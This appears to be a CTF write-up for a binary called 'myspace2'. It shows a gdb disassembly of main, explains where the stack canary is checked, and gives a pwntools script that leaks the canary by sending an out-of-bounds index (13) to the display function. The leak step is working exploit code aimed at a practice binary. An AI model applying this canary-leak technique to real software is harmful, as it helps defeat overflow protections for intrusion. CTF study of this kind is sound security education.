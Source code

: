 ```asm
   0x000000000040167f <+251>:   cmp    DWORD PTR [rbp-0x74],0x1
   0x0000000000401683 <+255>:   je     0x40168d <main+265>
   0x0000000000401685 <+257>:   cmp    DWORD PTR [rbp-0x74],0x2
   0x0000000000401689 <+261>:   je     0x40169b <main+279>
   0x000000000040168b <+263>:   jmp    0x4016cd <main+329>
   0x000000000040168d <+265>:   lea    rax,[rbp-0x70]
   0x0000000000401691 <+269>:   mov    rdi,rax
   0x0000000000401694 <+272>:   call   0x40135b <all_friends>
   0x0000000000401699 <+277>:   jmp    0x4016dc <main+344>
   0x000000000040169b <+279>:   lea    rax,[rbp-0x70]
   0x000000000040169f <+283>:   mov    rdi,rax
   0x00000000004016a2 <+286>:   call   0x4013be <edit_friend>
   0x00000000004016a7 <+291>:   jmp    0x4016dc <main+344>
   0x00000000004016a9 <+293>:   lea    rax,[rbp-0x70]
   0x00000000004016ad <+297>:   mov    rdi,rax
   0x00000000004016b0 <+300>:   call   0x4014d7 <display_friend>
   0x00000000004016b5 <+305>:   jmp    0x4016dc <main+344>
   0x00000000004016b7 <+307>:   mov    eax,0x0
   0x00000000004016bc <+312>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00000000004016c0 <+316>:   sub    rdx,QWORD PTR fs:0x28
   0x00000000004016c9 <+325>:   je     0x4016e6 <main+354>
   0x00000000004016cb <+327>:   jmp    0x4016e1 <main+349>
   0x00000000004016cd <+329>:   lea    rax,[rip+0xa6a]        # 0x40213e
   0x00000000004016d4 <+336>:   mov    rdi,rax
   0x00000000004016d7 <+339>:   call   0x4010d0 <puts@plt>
   0x00000000004016dc <+344>:   jmp    0x401636 <main+178>
   0x00000000004016e1 <+349>:   call   0x4010f0 <__stack_chk_fail@plt>
   0x00000000004016e6 <+354>:   leave
   0x00000000004016e7 <+355>:   ret
End of assembler dump.
```
i know that the canary is likely loaded in `0x00000000004016bc <+312>:   mov    rdx,QWORD PTR [rbp-0x8]` because right after this instruction there is a `0x00000000004016c0 <+316>:   sub    rdx,QWORD PTR fs:0x28` instruction and stack check fail call which happens after a comparing of values. It makes sure that the value is the same through subtracting the expected value and all. `fgets()` entry is at `[rbp-0x30]` meaning alignment wise its above the matrix. The beginning is `0x70` so the distance betwween them both is 40 but this indexing is relative to the beginning of the matrix. So its `40+64` which is `104` or basically "index 13".

simple canary capture

basically tldr canary is a value in the stack which when overwritten makes the program just crash out. Its a security protection which is supposed to stop buffer overflow attacks this way. Alas, like many protections it gets absolutely screwed over if leaks exist.

```py
#!/usr/bin/python3
from pwn import *
context.arch = "amd64"
context.os = "linux"

elf = ELF('./myspace2')
io = process('./myspace2')

io.recvuntil(b"> ")
io.sendline(b"3")
io.recvuntil(b": ")
io.sendline(b"13")
io.recvline()
io.recvline()
leak = io.recvn(8)
canary = u64(leak)
print(f"canary: {hex(canary)}")
```
